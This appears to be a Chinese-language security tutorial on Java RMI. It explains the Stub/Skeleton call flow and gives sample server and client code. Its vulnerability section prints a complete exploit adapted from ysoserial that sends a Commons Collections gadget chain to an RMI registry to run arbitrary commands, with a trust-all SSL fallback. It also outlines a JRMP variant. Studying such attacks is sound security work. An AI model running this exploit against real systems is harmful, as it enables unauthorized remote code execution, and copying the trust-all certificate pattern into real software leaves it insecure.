


---
tags:
    - Java
    - Web Sec
comments: true
---
# 4 Java RMI

RMI(Remote Method Invocation)即Java远程方法调用，RMI用于构建分布式应用程序，RMI实现了Java程序之间跨JVM的远程通信。

<figure markdown="span">
  {width=85%}
  <figcaption>RMI架构</figcaption>
</figure>

RMI底层通讯采用了Stub(客户端)和Skeleton(服务端)机制，RMI调用远程方法的大致如下：

1. RMI客户端创建Stub(`sun.rmi.registry.RegistryImpl_Stub`)。
2. Stub将Remote对象传递给客户端远程引用层(`java.rmi.server.RemoteRef`)并创建`java.rmi.server.RemoteCall`对象。
3. RemoteCall序列化RMI服务名称、Remote对象。
4. 客户端的远程引用层传输序列化后的请求信息，通过Socket传到服务端远程引用层(`sun.rmi.server.UnicastServerRef`)。
5. 服务端的远程引用层将请求传递给Skeleton(`sun.rmi.registry.RegistryImpl_Skel#dispatch`)。
6. Skeleton调用RemoteCall反序列化RMI客户端传过来的信息。
7. Skeleton处理客户端请求：bind、list、lookup、rebind、unbind，如果是lookup则查找RMI服务名绑定的接口对象，序列化该对象并通过RemoteCall到客户端。
8. RMI客户端反序列化服务端结果，获取远程对象的引用。
9. RMI客户端调用远程方法，RMI服务端反射调用RMI服务实现类的对应方法并序列化执行结果返回给客户端。
10. RMI客户端反序列化RMI远程方法调用结果。

## RMI远程方法调用示例

=== "接口"

    ```java title="TestInt"
    package cc.rmi;

    import java.rmi.Remote;
    import java.rmi.RemoteException;

    /**
     * RMI测试接口
     */
    public interface TestInt extends Remote {
        String test() throws RemoteException;
    }
    ```

    ``` java title="TestImpl"
    package cc.rmi;

    import java.rmi.RemoteException;
    import java.rmi.server.UnicastRemoteObject;

    public class TestImpl extends UnicastRemoteObject implements TestInt {

        private static final long serialVersionUID = 1L;

        protected TestImpl() throws RemoteException {
            super();
        }

        @Override
        public String test() throws RemoteException {
            return "Hello RMI~";
        }

    }
    ```

=== "服务端"

    ```java title="RMIServerTest"
    package cc.rmi;

    import java.rmi.Naming;
    import java.rmi.registry.LocateRegistry;

    public class RMIServerTest {

        // RMI服务器IP地址
        public static final String RMI_HOST = "127.0.0.1";

        // RMI服务端口
        public static final int RMI_PORT = 9879;

        // RMI服务名称
        public static final String RMI_NAME = "rmi://" + RMI_HOST + ":" + RMI_PORT + "/test";

        public static void main(String[] args) {
            try {
                // 注册RMI端口
                LocateRegistry.createRegistry(RMI_PORT);

                // 绑定Remote对象
                Naming.bind(RMI_NAME, new TestImpl());

                System.out.println("RMI服务启动成功,服务地址:" + RMI_NAME);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    运行结果：

    {width=50% loading=lazy}

=== "客户端"

    ```java title="RMIClientTest"
    package cc.rmi;

    import java.rmi.Naming;

    import static cc.rmi.RMIServerTest.RMI_NAME;

    public class RMIClientTest {

        public static void main(String[] args) {
            try {
                // 查找远程RMI服务
                TestInt rt = (TestInt) Naming.lookup(RMI_NAME);

                // 调用远程接口RMITestInterface类的test方法
                String result = rt.test();

                // 输出RMI方法调用结果
                System.out.println(result);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    运行结果：

    {width=50% loading=lazy}

## RMI 反序列化漏洞

RMI通信中所有的对象都是通过Java序列化传输的，因此RMI存在反序列化漏洞。攻击者可以通过构造恶意序列化数据，触发服务端反序列化漏洞，导致服务端远程代码执行。具体利用链可参考[《Apache Common Collections反序列化》](/Sec/Web/Deserial/ACC/#2-cc1-lazymap)

??? node "PoC"

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;

    import javax.net.ssl.SSLContext;
    import javax.net.ssl.SSLSocketFactory;
    import javax.net.ssl.TrustManager;
    import javax.net.ssl.X509TrustManager;
    import java.io.IOException;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.net.Socket;
    import java.rmi.ConnectIOException;
    import java.rmi.Remote;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import java.rmi.server.RMIClientSocketFactory;
    import java.security.cert.X509Certificate;
    import java.util.HashMap;
    import java.util.Map;


    /**
     * RMI反序列化漏洞利用，修改自ysoserial的RMIRegistryExploit：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java
     *
     * @author yz
     */
    public class RMIExploit {

        // 定义AnnotationInvocationHandler类常量
        public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        /**
            * 信任SSL证书
            */
        private static class TrustAllSSL implements X509TrustManager {

            private static final X509Certificate[] ANY_CA = {};

            public X509Certificate[] getAcceptedIssuers() {
                return ANY_CA;
            }

            public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

            public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

        }

        /**
            * 创建支持SSL的RMI客户端
            */
        private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {

            public Socket createSocket(String host, int port) throws IOException {
                try {
                    // 获取SSLContext对象
                    SSLContext ctx = SSLContext.getInstance("TLS");

                    // 默认信任服务器端SSL
                    ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);

                    // 获取SSL Socket连接工厂
                    SSLSocketFactory factory = ctx.getSocketFactory();

                    // 创建SSL连接
                    return factory.createSocket(host, port);
                } catch (Exception e) {
                    throw new IOException(e);
                }
            }
        }

        /**
            * 使用动态代理生成基于InvokerTransformer/LazyMap的Payload
            *
            * @param command 定义需要执行的CMD
            * @return Payload
            * @throws Exception 生成Payload异常
            */
        private static InvocationHandler genPayload(String command) throws Exception {
            // 创建Runtime.getRuntime.exec(cmd)调用链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformerChain = new ChainedTransformer(transformers);

            // 使用LazyMap创建一个含有恶意调用链的Transformer类的Map对象
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, lazyMap);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

            // 使用动态代理创建出Map类型的Payload
            final Map mapProxy2 = (Map) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annHandler
            );

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, mapProxy2);
            return (InvocationHandler) constructor.newInstance(Override.class, mapProxy2);
        }

        /**
            * 执行Payload
            *
            * @param registry RMI Registry
            * @param command  需要执行的命令
            * @throws Exception Payload执行异常
            */
        public static void exploit(final Registry registry, final String command) throws Exception {
            // 生成Payload动态代理对象
            Object payload = genPayload(command);
            String name    = "test" + System.nanoTime();

            // 创建一个含有Payload的恶意map
            Map<String, Object> map = new HashMap();
            map.put(name, payload);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, map);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, map);

            // 使用动态代理创建出Remote类型的Payload
            Remote remote = (Remote) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, annHandler
            );

            try {
                // 发送Payload
                registry.bind(name, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        }

        public static void main(String[] args) throws Exception {
            if (args.length == 0) {
                // 如果不指定连接参数默认连接本地RMI服务
                args = new String[]{"127.0.0.1", String.valueOf(9879), "calc"};
            }

            // 远程RMI服务IP
            final String host = args[0];

            // 远程RMI服务端口
            final int port = Integer.parseInt(args[1]);

            // 需要执行的系统命令
            final String command = args[2];

            // 获取远程Registry对象的引用
            Registry registry = LocateRegistry.getRegistry(host, port);

            try {
                // 获取RMI服务注册列表(主要是为了测试RMI连接是否正常)
                String[] regs = registry.list();

                for (String reg : regs) {
                    System.out.println("RMI:" + reg);
                }
            } catch (ConnectIOException ex) {
                // 如果连接异常尝试使用SSL建立SSL连接,忽略证书信任错误，默认信任SSL证书
                registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
            }

            // 执行payload
            exploit(registry, command);
        }

    }
    ```
    运行结果：

    {loading=lazy}

## RMI-JRMP反序列化漏洞

JRMP接口的两种常见实现方式：

1. JRMP协议(Java Remote Message Protocol)，RMI专用的Java远程消息交换协议。
2. IIOP协议(Internet Inter-ORB Protocol) ，基于 CORBA 实现的对象请求代理协议。

由于RMI数据通信大量的使用了Java的对象反序列化，所以在使用RMI客户端去攻击RMI服务端时需要特别小心，如果本地RMI客户端刚好符合反序列化攻击的利用条件，那么RMI服务端返回一个恶意的反序列化攻击包可能会导致我们被反向攻击。

我们可以通过和RMI服务端建立Socket连接并使用RMI的JRMP协议发送恶意的序列化包，RMI服务端在处理JRMP消息时会反序列化消息对象，从而实现RCE。此外，采用Socket协议不会反序列化RMI服务器端的数据，所以不用担心本地被RMI服务端通过构建恶意数据包攻击。


参考[PoC](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPClient.java){target="_blank"}